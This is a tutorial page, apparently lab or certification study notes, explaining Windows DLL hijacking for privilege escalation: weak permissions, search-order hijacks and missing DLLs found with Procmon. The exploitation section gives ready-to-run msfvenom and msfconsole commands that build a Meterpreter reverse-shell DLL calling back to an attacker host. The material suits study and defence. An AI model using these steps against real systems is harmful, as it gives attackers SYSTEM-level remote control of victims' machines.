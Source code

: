 ### What is DLL?
**Dynamic Link Libraries (DLLs)** are ***libraries that contain data and procedures used by Windows applications and services***, allowing the ***code to be used across multiple applications*** at any given time. This helps ***save disk space*** and allows applications to ***load faster*** due to code reuse.

To be used for privilege escalation, the ***executable must be run by an administrator-level account***. Luckily, most services are launched by the SYSTEM account. 

It's not just services that are vulnerable - any process launched by a privileged user could be vulnerable to DLL hijacking.

### DLL Hijacking
It tricks an executable into loading a malicious DLL instead of the intended one.

A process will likely be vulnerable to DLL hijacking if it meets at least one of the following criteria:
- It loads a DLL that you have ***write access*** (**weak DLL permissions**)
- You have ***write-access*** to a folder that's ahead of the folder that contains the intended DLL in the search order (**DLL search order hijack**)
- It attempts to load a DLL that doesn't exist (**missing DLLs**)

#### Weak DLL Permissions
Occurs when a user is given ***write or modify permissions*** over a DLL loaded by a process. These permissions allow you to completely replace the file. If a SYSTEM-launched service loads the malicious DLL, it results in privilege escalation.

#### DLL Search Order Hijack
Occurs when a ***writable folder appears before the intended DLL's location*** in the search order. When a ***process attempts to load a DLL without giving an exact path***, Windows will first attempt to look for the DLL in the folder where the executable exists.

Default DLL search order:
- **The directory from which the application was loaded**
- **C:\Windows\System32**
- **C:\Windows\System**
- **C:\Windows**
- **The current directory**
- **Directories in the system PATH variable**
- **Directories in the user PATH variable**

**Example**
If an application tries to load `customlibrary.dll` with just its name without specifying a full path, Windows follows ***DLL search order*** to locate the file. 

if an application tries to load `customlibrary.dll` from `C:\Windows\customlibrary.dll`, but you place your malicious DLL in `C:\Users\restricted1\CustomService\bin\customlibrary.dll`, Windows will load your DLL first because `C:\Users\restricted1\CustomService\bin` comes earlier in the search order.

#### Missing DLLs
It occurs when a ***process tries to load a DLL that doesn't exist*** on the system. Since Windows searches multiple locations for the DLL, an attacker can exploit this by placing a malicious DLL in a directory that appears earlier in the search order.

**Finding missing DLLs from Procmon**
Procmon (`Process Monitor`) is a Sysinternals tool that ***tracks real-time process activity***, including file system and registry actions. To identify missing DLLs:
- **Open Procmon** to view running processes and their operations.
- **Filter results** by setting `Result is NAME NOT FOUND` to locate failed DLL access attempts.
- **Refine further** by filtering `Path ends with .dll` to show only missing DLLs.
- **Identify privileged processes** (e.g., Administrator or SYSTEM) attempting to load missing DLLs.
- **Check write access** to determine if you can place a malicious DLL in a location Windows will find.

**Name of the vulnerable process can be found under `Process -> Path`.
Filename of the missing DLL can be found under `Event -> Path`.**

**Writable Folders**
To exploit a missing DLL vulnerability, you must identify a writable folder in the DLL search order where you can place your malicious DLL.

Step 1. Find a Writable Folder:
- In Procmon -> Process > Path

Step 2. Check folder permissions:
	**AccessChk**
		`accesschk.exe -dqv "C:\Program Files\Backup Files\Daily Backup"`
	**icacls**
		`icacls "C:\Program Files\Backup Files\Daily Backup"`

### Exploitation
**Generate Payload**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f dll -o daily.dll
```

`Transfer the payload to the Windows Target`

**Launch a Listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost $kaliIPAddress; set lport 4444; exploit"
```

### Replacement
To exploit a DLL hijacking vulnerability, follow these steps based on the type of vulnerability you're targeting:
- **Weak Permissions:** Locate the target DLL and overwrite the target DLL with your payload.
- **If you're attempting to hijack the search order of the DLL:** Place your malicious DLL in a location higher in the search path. 
- **Missing DLL Exploit:** Add your DLL to a folder in the DLL search order (e.g., same folder as the executable).

For example, if a process is looking for the missing DLL (e.g., `daily.dll`) file, adding the DLL to the same location as the original executable (e.g., `C:\Program Files\Backup Files\Daily Backup\daily.dll`) is enough for the process to find the "missing" DLL.

Once you've added your DLL payload to the correct location, the next time the process attempts to access this DLL, your malicious code will be executed. For service processes, this might be when the service is next restarted (either manually or when the system reboots). However, some processes will load the library almost immediately as soon as the process detects the library exists – this'll entirely depend on the process that's being exploited.

On the Kali desktop, open the terminal where your Metasploit listener is listening. If the process loads the library immediately, you'll gain a Meterpreter shell without needing to restart the target system. If the shell doesn't appear immediately, you'll need to restart the target. Once the Windows system has finished restarting, the service will also restart.

